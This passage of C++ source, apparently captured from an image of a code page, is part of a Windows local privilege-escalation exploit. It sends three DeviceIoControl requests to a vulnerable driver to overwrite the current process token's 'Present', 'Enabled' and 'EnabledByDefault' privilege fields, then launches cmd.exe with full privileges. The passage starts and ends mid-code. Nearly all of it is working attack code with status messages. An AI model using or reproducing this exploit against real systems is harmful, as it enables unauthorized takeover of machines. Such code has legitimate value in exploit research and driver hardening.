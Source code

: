 ```cpp
            0,
            &field2,
            (void *)(tokenAddress + 0x51)};

    DWORD bytesReturned = 0;
    success = DeviceIoControl(
        device,
        IOCTL_CODE,
        &exploit,
        sizeof(exploit),
        nullptr,
        0,
        &bytesReturned,
        nullptr);
    if (!success)
    {
        std::cout << "[!] Couldn't overwrite current token 'Present' field. Error code: " << ::GetLastError() << std::endl;
        return -1;
    }
    std::cout << "[+] Successfully overwritten current token 'Present' field!\n";

    success = DeviceIoControl(
        device,
        IOCTL_CODE,
        &exploit2,
        sizeof(exploit2),
        nullptr,
        0,
        &bytesReturned,
        nullptr);
    if (!success)
    {
        std::cout << "[!] Couldn't overwrite current token 'Enabled' field. Error code: " << ::GetLastError() << std::endl;
        return -1;
    }
    std::cout << "[+] Successfully overwritten current token 'Enabled' field!\n";

    success = DeviceIoControl(
        device,
        IOCTL_CODE,
        &exploit3,
        sizeof(exploit3),
        nullptr,
        0,
        &bytesReturned,
        nullptr);
    if (!success)
    {
        std::cout << "[!] Couldn't overwrite current token 'EnabledByDefault' field. Error code:" << ::GetLastError() << std::endl;
        return -1;
    }
    std::cout << "[+] Successfully overwritten current token 'EnabledByDefault' field!\n";
    std::cout << "[+] Token privileges successfully overwritten!\n";
    std::cout << "[+] Spawning a new shell with full privileges!\n";

    system("cmd.exe");

    return 0;
}
/*
```